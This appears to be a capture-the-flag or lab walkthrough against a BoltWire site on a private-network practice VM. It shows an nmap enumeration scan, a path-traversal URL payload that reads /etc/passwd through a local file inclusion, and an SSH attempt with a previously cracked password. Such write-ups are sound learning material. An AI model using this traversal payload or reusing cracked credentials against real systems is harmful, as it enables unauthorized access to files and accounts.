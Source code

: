 ## Trying to find version of BoltWire. nmap --script http-enum -p 8080 192.168.64.135
    kali@kali:/usr/share/nmap/scripts$ nmap --script http-enum -p 8080 192.168.64.135
    Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-13 09:01 EST
    Nmap scan report for 192.168.64.135
    Host is up (0.00042s latency).
    
    PORT     STATE SERVICE
    8080/tcp open  http-proxy
    | http-enum: 
    |_  /dev/: Potentially interesting folder
    
    Nmap done: 1 IP address (1 host up) scanned in 0.61 seconds

## Moving on.. 
when playing around with the /dev website, i noticed when clicking on the Search tab, it inputs the action within the url. Leading me to search for known potential exploits that may contain search.action vulnerabilities.

![image](https://github.com/user-attachments/assets/92edf81e-0647-4668-85f5-698d0aaebd1f)

When conducting a simple Google search of Boltwire, a Boltwire 6.03 exploit immediately shows up exploiting a Local File Inclusion.
https://www.exploit-db.com/exploits/48411

![image](https://github.com/user-attachments/assets/bb7c0d68-3bfc-45c4-8cc7-ee87cd631030)

Exploit attempt:

    http://192.168.64.135:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd

Exploit divulged the /etc/passwd details, in which we can see JP is infact jeanpaul with /bin/bash privileges.

![image](https://github.com/user-attachments/assets/ffebd003-6d13-4b7c-aa23-bb8675c28fe4)

## Attempting to SSH with jeanpaul and the previously cracked password of ilovejava

![image](https://github.com/user-attachments/assets/e5537346-9fd5-4b76-912f-16e7f1e42c21)
No kudos.

# Continue searching through other found directories from GoBuster results - http://192.168.64.135/dir
    /public
    /src
    /app
    /vendor
    /extensions
